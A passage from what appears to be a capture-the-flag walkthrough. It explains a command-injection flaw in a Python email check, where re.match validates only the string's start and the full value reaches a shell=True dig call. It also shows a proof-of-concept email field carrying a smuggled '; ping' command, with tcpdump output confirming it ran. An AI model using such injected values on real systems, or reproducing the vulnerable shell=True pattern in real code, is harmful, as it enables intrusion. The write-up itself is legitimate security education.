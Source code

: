 `issecure` starts with a regex attempting to validate that the email is a valid email. Then it gets the domain from the email, and uses it to get the SPF text records for the domain. There’s more here, but it’s not important to me.

#### Identify Vulnerability

If the email address doesn’t match the regular expression, it’s supposed to return 0, ending the function before it can get to the `run` call which is potentially dangerous.

The problem is that `re.match` just checks that the [start of the string](https://docs.python.org/3/library/re.html#re.match) matches the regex:

![image-20230424133955146](/img/image-20230424133955146.png)

So as long as the start of the string is a match, I can add whatever I want to the end. I’ll demonstrate in [regex101.com](https://regex101.com/):

![image-20230823214402835](/img/image-20230823214402835.png)

Both match on the start of the string, so both would return success on the match. If the developer wanted this to match the entire string, they could have added a `$` to the end of the regex, like this:

![image-20230823214427759](/img/image-20230823214427759.png)

Now only the first line matches.

If the code continued with only the matched object, that could be safe. But then it uses the full email to make the call to `run`:

```

domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)

```

#### POC

To test this, I’ll try the same POC I showed in the image above. This will make the following:

```

email = "0xdf@only4you.htb; ping -c 1 10.10.14.6"
domain = "only4you.htb; ping -c 1 10.10.14.6"
command = "dig txt only4you.htb; ping -c 1 10.10.14.6"

```

I’ll get the POST request into Burp Repeater and send it. It hangs for a few seconds (presumably doing the DNS request?), and then there’s an ICMP packet at my listening `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:48:20.818373 IP 10.10.11.210 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
13:48:20.818389 IP 10.10.14.6 > 10.10.11.210: ICMP echo reply, id 2, seq 1, length 64

```
